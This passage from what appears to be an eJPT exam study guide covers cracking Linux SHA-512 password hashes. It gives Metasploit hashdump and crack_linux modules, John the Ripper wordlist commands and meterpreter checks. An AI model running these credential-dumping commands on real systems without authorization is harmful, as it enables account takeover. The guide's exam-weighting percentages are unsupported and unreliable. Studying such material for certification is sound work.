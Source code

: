 #### **🔍 Learning Points:**
- **Hash Format Recognition:** The `$6$` prefix indicates SHA-512 crypt
- **Multiple Tool Verification:** Same result from Metasploit, John, and Hashcat
- **Weakness Confirmed:** Simple password cracked by all methods instantly
- **Tool Equivalency:** Different tools, same effective results

---

## 🎯 eJPT Exam Success Guide

### **📊 How Important This Is for eJPT:**

Understanding the importance of hash cracking skills for passing the eJPT exam:

- **Post-Exploitation Techniques:** 45% of advanced exploitation scenarios
- **Password Attack Fundamentals:** 40% of authentication bypass questions
- **Metasploit Framework Usage:** 50% of framework-based exploitation
- **Linux System Compromise:** 35% of Unix/Linux attack scenarios

### **🏆 Commands You MUST Know for eJPT:**

#### **Level 1 - You WILL See This (100% Chance):**
```bash
# Basic post-exploitation hash extraction
use post/linux/gather/hashdump
set SESSION 1
exploit
# Expected: Hash file creation and storage in loot directory

# Automated hash cracking with Metasploit
use auxiliary/analyze/crack_linux
set SHA512 true
run
# Expected: Cracked passwords displayed in table format

# Basic hash identification
hashid '$6$salt$hash'
# Expected: Hash algorithm identification with tool recommendations
```

#### **Level 2 - Very Likely (80% Chance):**
```bash
# Manual hash cracking with John the Ripper
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash_file
# Expected: Password recovery with timing information

# Display cracked passwords
john --show hash_file
# Expected: Username:password pairs from successful cracks

# Command execution verification after exploitation
meterpreter > getuid
meterpreter > sysinfo
# Expected: System information confirming access level
```
